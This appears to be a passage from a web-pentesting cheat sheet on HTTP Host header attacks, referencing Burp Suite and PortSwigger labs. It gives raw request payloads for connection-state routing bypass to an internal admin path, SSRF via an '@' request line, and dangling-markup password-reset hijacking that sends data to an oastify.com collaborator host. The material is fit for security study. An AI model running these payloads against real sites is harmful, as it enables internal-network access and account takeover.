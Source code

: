 7. **X-Forwarded-For**:  
   *Example:*  
   ```
   X-Forwarded-For: 203.0.113.195, 198.51.100.17
   ```  
   *Use Case:* A request was forwarded through two proxies. The originating client IP is `203.0.113.195`, and the second proxy that forwarded the request has IP `198.51.100.17`.
Note: In Burp Suite, you can use the Param Miner extension's "Guess headers" function to automatically probe for supported headers using its extensive built-in wordlist.
## Connection state attacks
#### For performance reasons, many websites reuse connections for multiple request/response cycles with the same client. In this case, you can potentially bypass this validation by sending an innocent-looking initial request then following up with your malicious one down the same connection. 
```
Step 1 >> Duplicate a request.
Step 2 >> Change the Connection header to keep-alive in 1st request.
Step 3 >> Change the request method GET to POST in 2nd request.
Step 4 >> Mention the administrator path and change the host to local ip in 2nd request.
Step 5 >> Using the drop-down menu next to the Send button, change the send mode to Send group in sequence (single connection) and send both request together.
```
```txt
POST /admin HTTP/1.1
Host: 192.168.0.1 
```
## SSRF via a malformed request line

A reverse proxy might take the path from the request line, prefix it with `http://backend-server`, and route the request to that upstream URL. If the path starts with `@` instead of `/`, the resulting upstream URL will be `http://backend-server@private-intranet/example`, which most HTTP libraries interpret as a request to access private-intranet with the username backend-server. So try to use `@` instead of `/`.

```txt
GET @private-intranet/example HTTP/1.1
```

## Check for flawed validation dangling
Instead of receiving an `Invalid Host header` response, you might find that your request is blocked as a result of some kind of security measure. If this happen, try to use port or non numeric staff in port.
```txt
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
Host: vulnweb.com:'<a href="//8jsdeu8fe6r8ju28t0lsplhjhan1bvzk.oastify.com/? (Password reset link hijacking via dangling markup)
```
You can use this method for password reset link hijacking via dangling markup.

[Check portswigger for more](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup)
